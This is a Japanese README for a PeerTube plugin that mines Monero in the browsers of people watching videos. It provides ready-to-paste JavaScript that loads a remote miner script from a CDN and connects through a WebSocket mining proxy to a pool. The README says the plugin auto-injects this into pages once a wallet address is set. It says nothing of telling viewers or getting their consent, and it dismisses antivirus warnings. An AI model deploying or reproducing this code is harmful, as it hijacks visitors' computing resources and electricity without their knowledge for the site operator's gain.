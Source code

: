 <div align="center">

<p><img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./modenart-sempai.png" width="320" height="240"></p>

<p>Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。</p>

<p>このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。</p>

<p>・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a></p>

<p>・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a></p>

</div>

# PeerTube plugin Quickstart

See <a href="https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme">https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme</a>

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

<a href="https://github.com/NajmAjmal/monero-webminer">https://github.com/NajmAjmal/monero-webminer</a>

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./setting.png">

</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

<a href="https://www.npmjs.com/package/peertube-plugin-monero-miner">https://www.npmjs.com/package/peertube-plugin-monero-miner</a>

・Github.ioページ

<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a>

・プロフィール

<a href="https://x.com/PYU224">https://x.com/PYU224</a>

<a href="https://linksta.cc/@pyu224">https://linksta.cc/@pyu224</a>

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

<a href="https://github.com/PYU224/misskey-data">https://github.com/PYU224/misskey-data</a>